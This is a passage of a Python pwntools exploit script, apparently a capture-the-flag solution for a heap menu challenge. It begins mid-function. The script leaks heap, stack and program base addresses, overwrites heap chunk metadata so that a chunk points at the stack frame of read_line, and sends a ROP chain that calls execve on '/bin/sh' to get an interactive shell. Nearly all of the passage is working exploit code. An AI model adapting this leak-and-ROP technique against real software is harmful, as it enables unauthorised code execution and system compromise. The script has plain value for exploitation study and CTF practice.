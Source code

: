 ```py
	p.sendlineafter(b'Index >', str(index).encode())
	#debug(False)
	#time.sleep(5)
	p.sendlineafter(b'Content >', memory)
	p.recvuntil(b'Content: ')
	return literal_eval(p.recvuntil(b']').decode())

def delete(index: int) -> None:
	p.sendlineafter(b'Choice >', b'4')
	p.sendlineafter(b'Index >', str(index).encode())

# --------

def list2list_bytes(data: list) -> list:
	d1 = [ data[i: i + 8] for i in range(0, len(data), 8) ]
	return [ b''.join([ p8(i) for i in d2 ]) for d2 in d1 ]

def list_bytes2bytes(data: list) -> bytes:
	return b''.join(data)

def ljust_mul(s1, justnum: int, s2): return s1.ljust(justnum, b'*').replace(b'*' * len(s2), s2)

add()
data = list2list_bytes(show(0))

heap_addr = u64(data[1])
stack_addr = u64(data[4])
program_addr = u64(data[5])

program_base = program_addr - 0x635b0
bin_base = heap_addr - 0x2bb0
stdin_buf = bin_base + 0xb90
ebp_read_line = stack_addr - 0x158 + 0x30 - 0x10

print(f'program_base:            {hex(program_base)}')
print(f'bin_base:                {hex(bin_base)} ')
print(f'stack_addr:              {hex(stack_addr)} ')
print(f'stdin_buf:               {hex(stdin_buf)} ')
print(f'ebp_addr when read_line: {hex(ebp_read_line)}')

edit(0, list_bytes2bytes([p64(0), p64(0), p64(0), p64(0x401), p64(ebp_read_line), p64(0), p64(0), p64(0x401)]))

rdi_rbp = program_base + 0x000000000001dd45 # pop rdi ; pop rbp ; ret
rsi_rbp = program_base + 0x000000000001e032 # pop rsi ; pop rbp ; ret
rax = program_base + 0x0000000000016f3e # pop rax ; ret
clear_rdx_pop_3 = program_base + 0x000000000005b1c2 # mov rdx, r8 ; pop rbx ; pop r14 ; pop rbp ; ret
syscall = program_base + 0x0000000000026fcf # syscall

pay = p64(rdi_rbp) * 0x13 
pay += p64(rdi_rbp) + p64(stack_addr) * 2 
pay += p64(rsi_rbp) + p64(0) * 2 
pay += p64(clear_rdx_pop_3) + p64(0) * 3
pay += p64(rax) + p64(0x3b)
pay += p64(rdi_rbp) + p64(stack_addr + 0x48 + 8) * 2 
pay += p64(syscall)

p.sendlineafter(b'Choice >', b'4')
p.sendlineafter(b'Index >', ljust_mul(pay, 0x3f0, b'/bin/sh\x00'))

p.interactive()
```
